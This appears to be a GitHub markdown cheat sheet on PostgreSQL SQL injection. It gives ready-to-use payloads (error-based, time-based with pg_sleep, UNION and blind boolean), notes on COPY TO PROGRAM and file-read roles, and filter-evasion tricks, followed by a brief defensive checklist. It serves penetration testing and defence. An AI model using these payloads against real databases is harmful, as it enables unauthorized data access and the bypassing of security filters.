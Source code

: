 # PostgreSQL — SQLi Notes

> Practical notes for testing and defending **PostgreSQL (9.6 → 16/17)**. Focus: fingerprinting, catalogs, delay/error primitives, UNION/stacking behavior, powerful but restricted features, and safe engineering guidance.

---

## 1) Quick Fingerprinting
- **Engine & version**
  - `SELECT version();` — banner.
  - `SHOW server_version;` — clean version.
- **Identity & context**
  - `SELECT current_user;`, `SELECT session_user;`
  - `SELECT current_database();`
  - `SELECT inet_server_addr(), inet_server_port();` (when allowed)

---

## 2) Comments, Quoting, Concatenation
- **Comments:** `--`, `/* ... */`.
- **Strings:** `'text'`; E-strings `E'line\nbreak'` for escapes.
- **Dollar‑quoting:** `$$ ... $$` (and `$tag$` variants) for procedural blocks/evasion.
- **Concat:** `'||'`; cast with `x::text` / `CAST(x AS text)`.

---

## 3) System Catalogs & Info Schema
- Preferred: `pg_class`, `pg_namespace`, `pg_attribute`, `pg_type`, `pg_roles`, `pg_indexes`.
- Portable: `information_schema.tables`, `information_schema.columns`.

**Handy queries**
```sql
SELECT nspname FROM pg_namespace WHERE nspname NOT LIKE 'pg_%' AND nspname <> 'information_schema';
SELECT relname FROM pg_class c JOIN pg_namespace n ON n.oid = c.relnamespace
WHERE n.nspname='public' AND c.relkind='r';
SELECT attname, format_type(atttypid, atttypmod) AS data_type
FROM pg_attribute WHERE attrelid = 'public.users'::regclass AND attnum > 0 AND NOT attisdropped ORDER BY attnum;
```

---

## 4) Error‑based Primitives
Cast/parse errors may echo values:
```sql
' AND CAST((SELECT current_database()) AS INT) -- -
' AND (SELECT 1/0) -- -       -- division by zero (no data echo)
```

---

## 5) Time‑based Primitives
```sql
' AND pg_sleep(3) -- -
' AND CASE WHEN current_user='postgres' THEN pg_sleep(3) ELSE pg_sleep(0) END -- -
' AND pg_sleep_for('3 seconds') -- -
```

---

## 6) UNION‑based Notes
- Match column count; align types (`::text`).
```sql
' UNION ALL SELECT 1,version(),3 -- -
' UNION ALL SELECT 1,current_database(),3 -- -
```
- Identify printable column with markers.

---

## 7) Stacked & Procedural Blocks
- Multiple statements often allowed; some frameworks sanitize.
- `DO $$ BEGIN ... END $$;` requires `plpgsql` (usually present).

---

## 8) OOB & High‑Privilege Features
- `COPY ... TO PROGRAM` (superuser or `pg_execute_server_program` role).
- File read functions (`pg_read_file`) gated by roles (`pg_read_server_files`).
- Extensions (FDWs, `dblink`) can reach out when installed.

---

## 9) Pagination & Iteration
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='public' ORDER BY table_name LIMIT 1 OFFSET 0;
' AND ASCII(SUBSTRING((SELECT current_user),1,1))>77 -- -
```

---

## 10) String Aggregation
- `string_agg(expr, ',' ORDER BY expr)` or `array_agg` + `array_to_string`.

---

## 11) Privileges & Security
```sql
SELECT rolname, rolsuper, rolcreaterole, rolcreatedb FROM pg_roles WHERE rolname=current_user;
SELECT * FROM pg_has_role(current_user, oid, 'member') AS is_member, rolname FROM pg_roles;
```
Restrict superuser‑like roles; avoid `COPY PROGRAM` grants to app roles.

---

## 12) Evasion Tips
- Mixed case/comment splitting: `p/**/g_sleep`.
- Dollar‑quoting to bypass quoting issues.
- Build strings with `CHR()` / `decode(...,'hex')`.

---

## 13) Defensive Checklist
- Parameterize queries; do not concatenate.
- Restrict roles (`superuser`, `pg_execute_server_program`, file‑read roles).
- Egress filter DB subnets; block outbound HTTP/DNS.
- Generic error handling; tests around vulnerable params.

---

## 14) Handy One‑liners
```sql
SELECT version(), current_database(), current_user;
SELECT table_name FROM information_schema.tables WHERE table_schema='public' ORDER BY table_name LIMIT 1;
' AND CASE WHEN ASCII(SUBSTRING((SELECT current_user),1,1))>77 THEN pg_sleep(3) ELSE pg_sleep(0) END -- -
```
